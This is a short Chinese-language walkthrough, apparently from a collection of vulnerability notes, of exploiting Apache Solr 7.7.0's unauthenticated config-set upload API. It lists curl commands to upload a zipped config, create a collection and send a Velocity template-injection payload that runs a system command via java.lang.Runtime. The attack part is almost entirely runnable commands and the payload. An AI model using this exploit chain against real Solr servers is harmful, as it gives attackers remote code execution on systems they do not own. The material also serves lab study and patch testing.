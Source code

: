 需要solr以cloud模式启动，特征是：
![1](Apache Solr未授权上传漏洞/1.png)

会有一个cloud的功能 。

编译一个恶意配置：

![2](Apache Solr未授权上传漏洞/2.png)

在对应目录下依次执行以下shell命令。

/solr-7.7.0/server/solr/configsets/sample_techproducts_configs/conf

zip -r - * > mytest.zip

curl -X POST --header "Content-Type:application/octet-stream" --data-binary @mytest.zip "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=mytest"  #注册一个配置文件集合为mytest

curl "http://127.0.0.1:8983/api/cluster/configs?omitHeader=true"  #查询配置文件集合是否上传成功

curl "http://127.0.0.1:8983/solr/admin/configs?action=CREATE&name=mytest2&baseConfigSet=mytest&configSetProp.immutable=false&wt=xml&omitHeader=true"

curl "http://127.0.0.1:8983/solr/admin/collections?action=CREATE&name=mytest&numShards=1&replicationFactor=1&wt=xml&collection.configName=mytest2" #使用之前上传的配置文件集合为mytest

![3](Apache Solr未授权上传漏洞/3.png)

curl -v "http://127.0.0.1:8983/solr/mytest/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x='')+%23set($rt=$x.class.forName('java.lang.Runtime'))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"

最后执行命令：

![4](Apache Solr未授权上传漏洞/4.png)

